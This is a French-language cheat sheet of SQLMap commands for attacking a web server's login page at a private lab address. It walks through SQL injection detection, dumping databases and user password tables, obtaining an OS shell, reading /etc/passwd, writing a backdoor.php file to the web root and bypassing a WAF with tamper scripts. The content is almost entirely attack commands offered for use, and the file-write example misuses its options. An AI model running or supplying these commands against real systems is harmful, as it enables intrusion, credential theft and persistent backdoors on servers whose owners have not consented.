 Voici une liste de commandes SQLMap adaptées à différents scénarios d'attaques SQL sur un serveur web :

---

## 🔍 **Détection et Identification**

### Tester une URL vulnérable à l'injection SQL :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --batch --dbs
```

### Détection avec POST data :

```bash
sqlmap -u "http://192.168.56.102/login.php" --data "username=admin&password=test" --batch --dbs
```

### Détection avec Cookie :

```bash
sqlmap -u "http://192.168.56.102/login.php" --cookie="PHPSESSID=abcd1234" --batch --dbs
```

---

## 📌 **Récupération d'Informations**

### Lister les bases de données disponibles :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --dbs
```

### Lister les tables d'une base de données spécifique :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" -D database_name --tables
```

### Lister les colonnes d'une table spécifique :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" -D database_name -T table_name --columns
```

### Extraire le contenu d'une table :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" -D database_name -T table_name --dump
```

---

## 🔑 **Exfiltration de Données Sensibles**

### Extraire les utilisateurs et mots de passe :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" -D database_name -T users --dump
```

### Extraire uniquement les noms d'utilisateur :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" -D database_name -T users -C username --dump
```

### Extraire uniquement les mots de passe :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" -D database_name -T users -C password --dump
```

---

## 🔥 **Prise de Contrôle et Exécution de Commandes**

### Vérifier si le serveur permet l'exécution de commandes :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --os-shell
```

### Obtenir un shell interactif :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --os-pwn
```

### Lire un fichier sensible (ex: /etc/passwd) :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --file-read="/etc/passwd"
```

### Écrire un fichier sur le serveur :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --file-write="/var/www/html/backdoor.php" --file-dest="/var/www/html/backdoor.php"
```

---

## ⚙️ **Évasion et contournement**

### Utiliser différents niveaux de tests (plus agressif) :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --level=5 --risk=3
```

### Bypasser un WAF :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --tamper=space2comment
```

### Essayer différentes techniques d'injection :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --technique=BEUST
```

### Tester si la connexion est authentifiée avec une session :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --cookie="session=xyz" --dbs
```

---
